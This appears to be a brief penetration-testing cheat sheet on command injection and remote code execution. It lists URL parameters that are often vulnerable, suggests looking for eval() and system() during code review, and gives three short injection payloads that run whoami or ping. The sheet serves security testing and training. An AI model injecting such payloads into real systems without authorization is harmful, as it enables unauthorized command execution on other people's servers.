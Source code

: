 # Remote Code Execution & Command Injection :
`occurs when an attacker can execute arbitrary code on a target machine because of a vulnerability or misconfiguration`

### Common parameters :

```
?cmd=
?exec=
?command=
?execute=
?ping=
?query=
?jump=
?code=
?reg=
?do=
?func=
?arg=
?option=
?load=
?process=
?step=
?read=
?function=
?req=
?feature=
?exe=
?module=
?payload=
?run=
?print=

```
### Source Code Review :
search in the source code keywords like `eval()` , `system()` ...etc 

### Portswiger payloads :
```
|whoami
||whoami>/var/www/images/test.txt||
||ping+-c10+127.0.0.1||
```

### Payloads :
> Visit [payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection)





